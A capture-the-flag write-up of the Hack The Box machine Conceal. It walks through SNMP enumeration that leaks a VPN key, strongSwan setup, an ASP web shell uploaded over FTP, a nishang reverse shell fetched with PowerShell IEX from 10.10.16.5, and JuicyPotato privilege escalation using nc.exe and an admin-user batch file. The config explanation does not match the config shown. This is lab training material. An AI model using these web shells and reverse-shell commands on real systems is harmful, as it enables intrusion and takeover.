


Conceal was an engaging box to delve into advanced exploitation techniques involving VPN configurations and Windows privilege escalation.

The process began with thorough information gathering, starting with a full port scan that revealed various open UDP ports. Enumerating the ISAKMP and SNMP services provided critical insights, including a VPN password.

Utilizing strongSwan, we configured a VPN connection to the target, enabling further service enumeration. This revealed additional open ports and accessible services, including FTP and a web service.

The exploitation phase included uploading files through FTP and identifying that the server could process ASP files, allowing us to execute commands and obtain a reverse shell. We leveraged nishang for the reverse shell script.

For privilege escalation, we exploited the JuicyPotato vulnerability on Windows, utilizing a valid CLSID to gain higher privileges. This allowed us to create a new user with administrative rights, ultimately leading to root shell access.

# Diagram



## Information Gathering

### Portscan
---

- `nmap -sS -Pn --open -D RND:20 10.10.10.116 -n -T4`
    
    
    

Tried to run the enumeration on TCP ports with NMAP but without success. So, I proceeded to enumerate the UDP ports.

- `sudo nmap -sU -p- --min-rate 10000 10.10.10.116 -v`
    
    
    
- `nmap -sUV -p 161,500 10.10.10.116 -n -T4 -v`
    
    
    

## Enumeration

### ISAKMP 500/UDP 

---

> Internet Security Association and Key Management Protocol - Used to establish security keys and security associations in an IP network. Used in conjunction with the IPsec protocol to establish secure VPNs.
> 

Tool to enumerate the service - Sends ISAKLMP packets to the host and will display any response it receives.

- `ike-scan 10.10.10.116`
    
    
    

### SNMP 161/UDP

---

> Simple Network Management Protocol - Used to manage devices on IP networks - Can be used to monitor/configure and control network devices - Routers / Switches / Similar devices
> 

Tool to "walk" through an SNMP agent's information tree - Listing all available information.

- `snmpwalk -v1 -c public 10.10.10.116` - “`-v1`” specifies the version & “`-c Public`” - default community for many devices
    
    
    

Obtained the Windows version:

`Hardware: Intel64 Family 6 Model 85 Stepping 7 AT/AT COMPATIBLE -` 

`Software: Windows Version 6.3 (Build 15063 Multiprocessor Free)`

Host is running VPN IKE

`iso.3.6.1.2.1.1.4.0 = STRING: 'IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43`

Let's use the strongSwan tool - Provides a complete solution for IPsec and IKEv2 VPNs

- `sudo apt-get install strongswan`
- `/etc/ipsec.conf` - Here goes the Target IP - Configuration file for the VPN connection
    
    ```conf
    # ipsec.conf - strongSwan IPsec configuration file
    
    # basic configuration
    config setup
        # strictcrlpolicy=yes
        # uniqueids = no
    
    # Add connections here
    
    # VPN connection
    conn myvpn
        keyexchange=ikev1
        authby=secret
        left=%defaultroute
        leftsubnet=0.0.0.0/0
        right=10.10.10.116
        rightsubnet=10.10.10.116/32
        ike=3des-sha1-modp1024!
        esp=3des-sha1!
        ikelifetime=28800s
        keylife=3600s
        rekeymargin=3m
        keyingtries=1
        auto=add
    ```
    
    **Explanation**
    - `conn myvpn`: This defines the name of the connection.
    - `keyexchange=ikev2`: This specifies that you want to use the Internet Key Exchange version 2 protocol for this connection
    - `ike=aes256-sha1-modp1024!` and  `esp=aes256-sha1!`: These settings define the encryption and hash algorithms for the IKE negotiation and the ESP security protocol.
    - `left=%defaultroute` and  `leftsubnet=0.0.0.0/0`: These options define the IP address and subnet of the "left" side of the connection (usually the "client" in a client-server connection).
    - `right=10.10.10.116` and  `rightsubnet=0.0.0.0/0`: These options define the IP address and subnet of the "right" side of the connection (usually the "server" in a client-server connection).
    - `leftauth=psk` and  `rightauth=psk`: These options specify that authentication will be done using a pre-shared key (PSK).
    - `auto=start`: This specifies that the connection should be started automatically when strongSwan is started.

- `/etc/ipsec.secrets` -  Pre-shared key file - Here goes the found password key
    
    ```conf
    %any 10.10.10.116 : PSK "9C8B1A372B1878851BE2C097031B6E43"
    ```
    
- `sudo ipsec restart` - Start the service
- `sudo ipsec up myvpn` - Connect to the VPN - Could not connect
    
    
    

Maybe the password is wrong `9C8B1A372B1878851BE2C097031B6E43` - Let's check on crackstation


- `/etc/ipsec.secrets`
    
    ```conf
    PSK "Dudecake1!"
    ```
    
- `/etc/ipsec.conf`
    
    ```conf
    conn Conceal
        type=transport
        keyexchange=ikev1
        right=10.10.10.116
        authby=psk
        rightprotoport=tcp
        leftprotoport=tcp
        esp=3des-sha1
        ike=3des-sha1-modp1024
        auto=start
    ```
    
- `sudo ipsec restart`
- `Ipsec start --nofork` - `CHILD_SA Conceal{1} established` -  Connection established and ready to run data
    
    
    

## Exploitation

---
### New Portscan

After establishing communication with the server, run the enumeration again.


- `nmap -sVC 10.10.10.116 -n -T4 -v` - Sem respostas
    
    
    

Restarted communication with ipsec and then ran the script again


- `nmap -p- --min-rate=1000 -sT -T4 10.10.10.116`
    
    
    
- `nmap -sC -sV -p 21,80,135,139,445,49664,49665,49666,49667,49668,49670 -sT 10.10.10.116`
    
    
    

### Abusing WEB and FTP
Since there's an open web port, I decided to enumerate directories.


- `gobuster dir -e -u http://10.10.10.116 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .php,.txt,.html --no-error -t 50 | grep -v "(Status: 403)"`
    
    
    
- [http://10.10.10.116/upload/](http://10.10.10.116/upload/)
    
    
    

As the enumeration showed FTP, let's connect.

- `tnftp -A 10.10.10.116`
    
    
    

Let's create a test file to upload to the page through FTP.

- `cat teste.php`
    
    
    
- `tnftp -A 10.10.10.116`
    
    
    
- `http://10.10.10.116/upload/`
    
    
    

With this, we can see that the file teste.php was uploaded, but let's see the return.

- `http://10.10.10.116/upload/teste.php`
    
    
    

Apparently, the server cannot read a .php file. Let's try [ASP](http://ASP.NET) instead of PHP.

- `0xdf.asp` - Creates a cmd
    
    ```conf
    <%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
    ```
    
- `http://10.10.10.116/upload/0xdf.asp?cmd=whoami` - Now let's try to get a reverse shell
    
    
    

Getting a reverse shell. Let's use nishang.

- [`raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) - Adding a line at the end of the script
    
    
    
- `http://10.10.10.116/upload/0xdf.asp?cmd=powershell iex(New-Object Net.Webclient).downloadstring('http://10.10.16.5:8080/Invoke-PowerShellTcp.ps1')`
- `nc -lvnp 443`
    
    
    

We got the shell.

- `flag`
    
    f59ed628c935850cc4d2f8fde8a83bef
    
    
    

## Priv Escalation

### JuicyPotato
---

- `systeminfo` Microsoft Windows 10 Enterprise - 10.0.15063 N/A Build 15063 - x64
    
    
    

- `whoami /priv`
    
    
    

SeImpersonatePrivilege enabled is almost a victory [PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019 | itm4n's blog](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

- `PrintSpoofer64.exe`
    
    

Couldn't run, let's try JuicyPotato

- `powershell "(New-Object Net.WebClient).DownloadFile('http://10.10.16.5:8080/JuicyPotato.exe', 'C:\Users\Destitute\Desktop\JuicyPotato.exe')"`
    
    
    
- `JuicyPotato.exe`
    
    
    

Let's try to find a '{CLSID}' - Since it's Windows 10 - NMAP enumeration  [https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows_10_Enterprise/CLSID.list](https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows_10_Enterprise/CLSID.list) 

Let's upload the file `CLSID_Win10Enterprise.list`  which contains the Win10 CLSID list and the `test_clsid.bat` file which contains the script to test.

- `powershell "(New-Object Net.WebClient).DownloadFile('http://10.10.16.5:8080/CLSID_Win10Enterprise.list', 'C:\Users\Destitute\Desktop\CLSID.list')"`
- `powershell "(New-Object Net.WebClient).DownloadFile('http://10.10.16.5:8080/test_clsid.bat', 'C:\Users\Destitute\Desktop\test_clsid.bat')"`
    
    
    

Now I'll upload a payload for Juicy to execute, note that the payload will be in .bat since I can't execute commands directly.

- `cat cmd.bat`
    
    
    
- `.\JuicyPotato.exe -t "*" -p ".\cmd.bat" -l 9001 -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"` 
    
    
    
I managed to execute it, but obviously did nothing because the cmd.bat script has nothing special.
Let's upload nc.exe and a .bat to connect.

- `cat cmd.bat`
    
    ```conf
    nc.exe 10.10.16.5 1234 -e cmd.exe
    ```
    
- `.\JuicyPotato.exe -t "*" -p nc.exe -a "-e cmd.exe 10.10.16.5 1234" -l 9001 -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"`
    
    
    

I'll create a script to create a user, etc.

- `upgradeshell.bat`
    
    ```conf
    net user /add hendrich 12345678a@
    net localgroup Administrators hendrich /add
    ```
    
- `.\JuicyPotato.exe -t "*" -p ".\upgradeshell.bat" -l 9001 -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"`
    
    
    

Let's check if it was created.

- `net users`
    
    
    

### Psexec

Let's use psexec to enter the server.

- `python3 /usr/local/bin/psexec.py [hendrich@10.10.10.116](mailto:hendrich@10.10.10.116)`
    
    
    

One detail I didn't notice is that the default JuicyPotato is a 32-bit executable, hence the error. Let's upload it as a binary in FTP.

- `tnftp -A 10.10.10.116`
    
    
    
- `jp.exe`
    
    
    
- `cp Invoke-PowerShellTcp.ps1 rev.ps1` - Set another port for the target machine to connect to our IP.
    
    
    
- `badfile.bat` - Uploading through .bat due to strings " " and ' '.
    
    ```conf
    powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:8080/rev.ps1')"
    ```
    

It will also be uploaded via FTP.


- `tnftp -A 10.10.10.116`
    
    
    

Another thing is this [http://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise/](http://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise/) site is great for viewing the CLSID - We need to pick a service we believe is more common and likely to be active.

- `{e60687f7-01a1-40aa-86ac-db1cbf673334}` - Chose this due to Windows update likely being active.
    
    
    
- `.\jp.exe -t "*" -p ".\badfile.bat" -l 9002 -c '{e60687f7-01a1-40aa-86ac-db1cbf673334}'`
    
    
    

- `nc -lvnp 9001` - Port of the rev.ps1 command - Got root.
    
    
    

- `flag`
    
    d06d87f49545e7e840475b7ddbe100dd
    
    